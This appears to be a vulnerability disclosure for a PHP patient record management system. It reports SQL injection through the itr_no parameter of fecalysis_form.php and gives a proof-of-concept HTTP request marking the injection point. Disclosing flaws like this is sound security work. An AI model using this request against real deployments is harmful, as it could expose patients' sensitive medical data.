 # health care patient-record-management-system-in-php has sql injection in /fecalysis_form.php

## supplier 

https://code-projects.org/patient-record-management-system-in-php-with-source-code/#google_vignette

## Vulnerability parameter

fecalysis_form.php

## describe

An unrestricted SQL injection attack exists in patient-record-management-system-in-php in fecalysis_form.php. The parameters that can be controlled are as follows: itr_no. This function executes the id parameter into the SQL statement without any restrictions. A malicious attacker could exploit this vulnerability to obtain sensitive information in the server database.

**Code analysis**    

When the value of $id parameter is obtained in fecalysis_form.php. , it will be concatenated into SQL statements and executed, which has a SQL injection vulnerability. 

![Image](https://github.com/user-attachments/assets/0a65a9e7-a0bc-4a0d-b206-e47c4400d6bb)

## POC

```
GET /fecalysis_form.php?itr_no=1* HTTP/1.1
Host: healthcarepatientrecordmanagementsystem
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:136.0) Gecko/20100101 Firefox/136.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Connection: close
Cookie: PHPSESSID=apub8ggoc8777fmi1n9sbu6ca1
Upgrade-Insecure-Requests: 1
Priority: u=0, i


```

**Result**

![image-20241226013405312](https://github.com/user-attachments/assets/fd4a6d5f-7c7d-418d-8db1-2bbd2d5bc9a0)

